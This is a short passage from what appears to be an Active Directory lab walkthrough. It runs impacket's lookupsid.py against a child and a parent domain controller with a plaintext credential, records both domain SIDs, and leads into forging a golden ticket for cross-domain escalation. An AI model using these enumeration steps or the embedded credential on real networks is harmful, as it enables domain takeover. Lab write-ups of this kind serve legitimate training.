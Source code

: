 ![Screenshot (251).png](attachment:6851ff6a-176c-4aca-83e9-fe1ee7e381ff:Screenshot_(251).png)

SID EXTRACTION

```bash
Next, we will perform SID Extraction using lookupsid python script on the child DC and 
Parent DC to get their SIDs.

lookupsid.py corpmngr:'User4&*&*'@child.warfare.corp/192.168.98.120
lookupsid.py corpmngr:'User4&*&*'@warfare.corp/192.168.98.2

Child SID = S-1-5-21-3754860944-83624914-1883974761
Parent SID =  S-1-5-21-3375883379-808943238-3239386119

```

Requirement for forging golden ticket
